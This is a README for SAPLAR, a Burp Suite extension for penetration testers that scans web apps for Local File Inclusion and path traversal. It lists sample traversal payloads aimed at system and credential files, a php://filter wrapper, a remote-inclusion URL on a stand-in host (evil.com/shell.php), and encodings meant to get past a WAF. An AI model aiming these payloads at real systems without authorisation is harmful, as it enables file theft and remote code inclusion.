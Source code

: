 # SAPLAR
SAPLAR - LFI &amp; Path Traversal Scanner


## Project Overview

SAPLAR is a powerful Burp Suite extension designed to detect Local File Inclusion (LFI) and Path Traversal vulnerabilities in web applications. It is specifically built for penetration testers, bug bounty hunters, and security researchers who need an automated, flexible, and highly efficient LFI scanner within Burp Suite.

This tool injects LFI payloads into various parts of the HTTP request, including:

- **GET Parameters**
- **POST Data**
- **Cookies**
- **HTTP Headers**

SAPLAR analyzes the server response to identify common LFI signatures and indicators. It features automated active scanning, manual scanning, and multiple encoding options to bypass security filters.


## Features

### Multi-Vector LFI Injection

SAPLAR automatically injects payloads into multiple request locations:

- **Query Parameters (?file=../../etc/passwd)**
- **POST Body (file=../../etc/passwd)**
- **Cookies (session=../../etc/passwd)**
- **HTTP Headers (User-Agent, Referer, X-Forwarded-For, Authorization, etc.)**



### Wide LFI Payload Database

Includes hundreds of payloads targeting:

- **Linux systems (/etc/passwd, /proc/self/environ, /var/log/auth.log)**
- **Windows systems (C:\Windows\win.ini, C:\boot.ini, C:\Users\Administrator\NTUSER.DAT)**
- **PHP Wrappers (php://filter/convert.base64-encode/resource=index.php)**
- **Log file extraction (../../../../var/log/apache2/access.log)**
- **Remote inclusion possibilities (http://evil.com/shell.php)**



### Automatic Encoding & WAF Bypass

Payloads can be encoded automatically to bypass security protections like WAF (Web Application Firewalls) and input validation filters.

- **Base64 Encoding**
- **URL Encoding (Single, Double, Triple)**
- **HEX Encoding**
- **Unicode Encoding**



### Signature-Based Response Analysis

SAPLAR scans responses for known LFI indicators, such as:

- **System Users: "root:x:0:0:", "NT AUTHORITY\\SYSTEM"**
- **Configuration Files: "[boot loader]", "kernel.core_pattern"**
- **Error Messages: "failed to open stream", "No such file or directory"**
- **False Positive Filtering: Detects standard 403/404 responses**



### Header & Cookie-Based Injection

Injects LFI payloads into common headers:

- **User-Agent**
- **Referer**
- **X-Forwarded-For**
- **Authorization**
- **X-Api-Key**
- **Accept-Charset**

Cookie Manipulation: Tries injecting LFI payloads into cookie values.




### GUI Integration in Burp Suite

SAPLAR provides a user-friendly graphical interface in Burp Suite.

- **A dedicated LFI Scan tab to manage scans.**
- **Right-click on any request in Burp and select "Scan for LFI".**
- **Real-time exploit status updates (Exploited, Not Vulnerable, Possible LFI).**



## Installation

- **Open Burp Suite and navigate to Extender → Extensions.**
- **Click Add, select Python, and load SAPLAR.py.**
- **The "LFI Scan" tab will appear in Burp Suite.**



## Usage

### Active LFI Scanning

- **Enable automatic scanning in Burp’s proxy or scanner settings.**
- **SAPLAR will inject payloads and analyze the responses.**
- **If an LFI vulnerability is detected, it will be flagged in the LFI Scan tab.**


### Manual LFI Scanning

- **Right-click on any HTTP request in Burp Proxy, Repeater, or Scanner.**
- **Select "Scan for LFI" from the context menu.**
- **View the results in the LFI Scan panel.**


## Signature-Based Detection & Exploit Confirmation

SAPLAR performs heuristic-based detection by analyzing HTTP responses.


- **Direct File Output:**

"root:x:0:0" → Indicates successful passwd file read.
"[boot loader]" → Windows system file.
"NT AUTHORITY\\SYSTEM" → Windows privilege escalation.


- **Error Messages:**

"failed to open stream" → Indicates file inclusion attempt.
"No such file or directory" → Confirms traversal attempt but file not found.


- **False Positive Prevention:**

Content-Length Analysis
403/404 Page Detection

